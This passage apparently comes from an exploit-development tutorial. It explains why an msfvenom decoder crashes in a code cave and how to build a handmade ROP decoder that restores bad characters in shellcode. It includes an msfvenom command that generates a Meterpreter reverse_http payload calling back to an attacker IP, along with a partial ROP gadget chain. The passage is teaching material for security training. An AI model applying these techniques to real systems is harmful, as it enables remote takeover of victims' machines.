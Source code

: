 Once we reach the beginning of WriteProcessMemory, we can execute the function to the end and dump the copied shellcode to verify that it's been copied to the code cave.

Unfortunately, after continuing execution, we encounter an access violation:


The highlighted assembly instruction attempted to modify a memory location pointed to by EAX+0x1A, which caused the crash.

From Listing 64 we notice that EAX points to an address within the code cave where the shellcode has been copied. We're encountering an access violation error because the shellcode's decoding stub expects the code to be stored in writable memory, but it is not.

This means we won't be able to use the msfvenom encoder, so we'll have to find a different solution. Fortunately, we have a few options.

We could write custom shellcode that does not contain any bad characters and by extension does not require a decoding routine. Alternatively, we could replace the bad characters and then leverage additional ROP gadgets to restore the shellcode before it's copied into the code section. In the next section, we'll pursue the latter approach.

Handmade ROP Decoder

At this point, we know we need to avoid bad characters in our shellcode and can not rely on the msfvenom decoder. In this section, we'll learn how to manually implement a ROP decoder and test it.

First, let's replace the bad characters with safe alternatives that will not break the exploit. To begin, we'll select arbitrary replacement characters, as shown in Listing 65.
0x00 -> 0xff
0x09 -> 0x10
0x0a -> 0x06
0x0b -> 0x07
0x0c -> 0x08
0x0d -> 0x05
0x20 -> 0x1f
To implement this technique, we'll first generate a windows/meterpreter/reverse_http payload in Python format (without encoding it):
	msfvenom -p windows/meterpreter/reverse_http LHOST=192.168.119.120 LPORT=8080 -f python -v shellcode
	
Since we're going to manually replace these characters for now, we'll only work on the first 20 bytes of the shellcode to determine if the technique works.

We can easily make these manual edits in our shellcode with a Python script. However, restoring the script with ROP at runtime is more challenging.

Let's start by creating a ROP chain to restore the first 0x00 byte, which was replaced with an 0xff byte.

Our complete ROP chain will perform three actions going forward. First, it will patch the arguments for WriteProcessMemory, then it will restore the shellcode, and finally, it will execute WriteProcessMemory.

Below is the ROP chain we'll use to restore the first bad character.
# Restore first three shellcode bytes
rop += pack("<L", (dllBase + 0x117c))   # pop ecx ; ret
rop += pack("<L", (negative value))	    # negative offset
rop += pack("<L", (dllBase + 0x4a7b6))  # sub eax, ecx ; pop ebx ; ret
rop += pack("<L", (original value))      # value into BH
rop += pack("<L", (dllBase + 0x468ee))  # add [eax+1], bh ; ret
